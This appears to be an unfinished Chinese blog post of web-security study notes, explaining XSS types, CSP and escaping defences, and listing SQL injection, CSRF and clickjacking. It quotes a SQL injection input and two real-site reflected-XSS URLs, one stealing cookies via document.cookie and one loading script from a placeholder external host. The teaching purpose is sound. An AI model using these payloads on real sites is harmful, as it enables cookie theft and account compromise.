 ```yaml
---
title: "Web Safe"
date: 2020-09-22T14:38:14+08:00
draft: false
---
```


web 安全领域中，常见的攻击方式，大概以下几种

- 跨站脚本
- 跨站伪造请求
- SQL 注入()
- 文件上传漏洞
- 分布式拒绝服务


```sql
SELECT uid,username FROM user WHERE username='plhwin'

-- 把plhwin 改成 plhwin';SHOW TABLES-- hack'
SELECT uid,username FROM user WHERE username='plhwin';SHOW TABLES-- hack'
```


##  客户端安全

####  跨站脚本攻击 (xss: Cross-Site Scripting)

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

XSS 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。

防范: 不仅仅是业务上的“用户的 UGC 内容”可以进行注入，包括 URL 上的参数等都可以是攻击的来源。在处理输入时，以下内容都不可信：

- 来自用户的 UGC 信息
- 来自第三方的链接
- URL 参数
- POST 参数
- Referer （可能来自不可信的来源）
- Cookie （可能来自其他子域注入）

XSS 分类: 存储型、反射型和 DOM 型三种。

|类型      |存储区|插入点| 
|-|-|-|
|存储型 XSS|后端数据库|HTML| 
|反射型 XSS|URL|HTML| 
|DOM 型 XSS|后端数据库/前端存储/URL|前端 JavaScript|

存储区：恶意代码存放的位置。
插入点：由谁取得恶意代码，并插入到网页上。

存储型 XSS: 攻击者将恶意代码提交到目标网站的数据库中。用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

反射型 XSS: 攻击者构造出特殊的 URL，其中包含恶意代码。用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。

DOM 型 XSS: 攻击者构造出特殊的 URL，其中包含恶意代码。用户打开带有恶意代码的 URL。用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

注意: DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。


#### XSS 攻击的预防

#### 服务端安全
- sql注入
- 文件上传漏洞
- 访问控制
- 应用层拒绝服务(分布式拒绝服务 doc攻击)


严格的 CSP 在 XSS 的防范中可以起到以下的作用：

禁止加载外域代码，防止复杂的攻击逻辑。
禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。
禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。
禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。
合理使用上报可以及时发现 XSS，利于尽快修复问题。


### 防范XSS攻击
- XSS 防范是后端 RD 的责任，后端 RD 应该在所有用户提交数据的接口，对敏感字符进行转义，才能进行下一步操作。
- 所有要插入到页面上的数据，都要通过一个敏感字符过滤函数的转义，过滤掉通用的敏感字符后，就可以插入到页面中

虽然很难通过技术手段完全避免 XSS，但我们可以总结以下原则减少漏洞的产生
- 利用模板引擎 开启模板引擎自带的 HTML 转义功能
- 避免内联事件 尽量不要使用 onLoad="onload('{{data}}')"、onClick="go('{{action}}')" 这种拼接内联事件的写法。在 JavaScript 中通过 .addEventlistener() 事件绑定会更安全。
- 避免拼接 HTML 前端采用拼接 HTML 的方法比较危险，如果框架允许，使用 createElement、setAttribute 之类的方法实现。或者采用比较成熟的渲染框架，如 Vue/React 等。
- 时刻保持警惕 在插入位置为 DOM 属性、链接等位置时，要打起精神，严加防范。
- 增加攻击难度，降低攻击后果 通过 CSP、输入长度配置、接口安全措施等方法，增加攻击的难度，降低攻击的后果。
- 主动检测和发现 可使用 XSS 攻击字符串和自动扫描工具寻找潜在的 XSS 漏洞。


### XSS 攻击案例

#### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现 http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb 这个 URL 的参数 uin、domain 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： 

http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B

浏览器接收到响应后就会执行 alert(document.cookie)，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。


#### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 http://weibo.com/pub/star/g/xyyyd 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：



## 跨站点请求伪造(csrf)


## 点击劫持
## html5 安全